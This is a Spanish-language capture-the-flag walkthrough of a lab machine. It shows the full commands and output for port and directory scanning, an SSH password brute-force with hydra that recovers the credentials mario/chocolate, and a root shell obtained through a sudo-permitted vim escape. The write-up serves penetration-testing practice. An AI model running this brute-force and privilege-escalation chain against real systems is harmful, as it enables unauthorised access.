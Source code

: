 # Herramientas
# 1. Escaneo
Escaneamos con nmap y podemos ver que los puertos 22 y 80 estám abiertos. 
```bash
nmap -p- 172.22.0.2                                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 11:18 -04  
Nmap scan report for 172.22.0.2  
Host is up (0.0000020s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
MAC Address: 2A:4B:7A:5E:32:49 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
```

Ingresamos a la página y podemos ver que está el archivo default de Apache.
![[Pasted image 20250714112015.png]]
Utilizamos gobuster para hacer un escaneo de directorios y podemos ver que hay un secret.php. 
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.22.0.2/ -x .php,.py,.txt,.html  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://172.22.0.2/  
[+] Method:                  GET  
[+] Threads:                 10  
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Extensions:              php,py,txt,html  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/index.html           (Status: 200) [Size: 10701]  
/secret.php           (Status: 200) [Size: 927]  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/server-status        (Status: 403) [Size: 275]  
Progress: 1038215 / 1038220 (100.00%)  
===============================================================  
Finished  
===============================================================
```

Lo abrimos y nos encontramos esto:
![[Pasted image 20250714112332.png]]

Hasta el momento solamente sabemos que puede haber un usuario llamado mario, por lo que procederemos a hacer fuerza bruta con hydra. Los parámetros ocupados son:
- -l: se debe especificar el usuario a probar
- -P: se especifica un diccionario de palabras

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.22.0.2                                          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organ  
izations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-14 11:26:23  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: u  
se -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous sessio  
n found, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per t  
ask  
[DATA] attacking ssh://172.22.0.2:22/  
[22][ssh] host: 172.22.0.2   login: mario   password: chocolate  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-14 11:26:41
```

Con esto vemos que se puede acceder con el usuario mario y contraseña chocolate.
```bash
ssh mario@172.22.0.2                 
The authenticity of host '172.22.0.2 (172.22.0.2)' can't be established.  
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '172.22.0.2' (ED25519) to the list of known hosts.  
mario@172.22.0.2's password:    
Linux 38462ed4ac9c 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21  
mario@38462ed4ac9c:~$
```

Procedemos a ver qué permisos tiene el usuario de mario:
```bash
sudo -l
Matching Defaults entries for mario on 38462ed4ac9c:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,  
   use_pty  
  
User mario may run the following commands on 38462ed4ac9c:  
   (ALL) /usr/bin/vim
```

Procedemos a ocupar `sudo -u root /usr/bin/vim`, poner ":" y colocar `!/bin/bash`

```
root@38462ed4ac9c:/home/mario# whoami  
root
```

Y con esto, hemos terminado de hackear la máquina :)
